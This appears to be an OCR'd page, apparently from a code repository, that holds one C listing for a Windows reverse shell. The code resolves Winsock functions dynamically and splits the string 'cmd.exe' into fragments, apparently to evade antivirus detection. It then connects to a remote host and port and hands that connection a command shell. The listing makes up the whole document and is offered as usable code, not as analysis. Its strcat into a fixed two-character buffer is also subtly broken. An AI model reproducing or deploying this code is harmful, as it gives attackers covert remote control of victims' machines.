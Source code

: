     * Change script

        ```
        #include <winsock2.h>
        #include <windows.h>
        #include <ws2tcpip.h>
        #include <stdio.h>

        #define DEFAULT_BUFLEN 1024

        typedef int(WSAAPI* WSASTARTUP)(WORD wVersionRequested,LPWSADATA lpWSAData);
        typedef SOCKET(WSAAPI* WSASOCKETA)(int af,int type,int protocol,LPWSAPROTOCOL_INFOA lpProtocolInfo,GROUP g,DWORD dwFlags);
        typedef unsigned(WSAAPI* INET_ADDR)(const char *cp);
        typedef u_short(WSAAPI* HTONS)(u_short hostshort);
        typedef int(WSAAPI* WSACONNECT)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);
        typedef int(WSAAPI* CLOSESOCKET)(SOCKET s);
        typedef int(WSAAPI* WSACLEANUP)(void);

        void runn(char* serv, int Port) {
            HMODULE hws2_32 = LoadLibraryW(L"ws2_32");
            WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
            WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
            INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
            HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
            WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32, "WSAConnect");
            CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
            WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup");
            SOCKET S0;
            struct sockaddr_in addr;
            WSADATA version;
            myWSAStartup(MAKEWORD(2,2), &version);
            S0 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
            addr.sin_family = AF_INET;
            addr.sin_addr.s_addr = myinet_addr(serv);
            addr.sin_port = myhtons(Port);
            if (myWSAConnect(S0, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
                myclosesocket(S0);
                myWSACleanup();
            } else {
                char p1[] = "cm";
                char p2[]="d.exe";
                char* p = strcat(p1,p2);
                STARTUPINFO sinfo;
                PROCESS_INFORMATION pinfo;
                memset(&sinfo, 0, sizeof(sinfo));
                sinfo.cb = sizeof(sinfo);
                sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
                sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) S0;
                CreateProcess(NULL, p, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);
                WaitForSingleObject(pinfo.hProcess, INFINITE);
                CloseHandle(pinfo.hProcess);
                CloseHandle(pinfo.hThread);
            }
        }
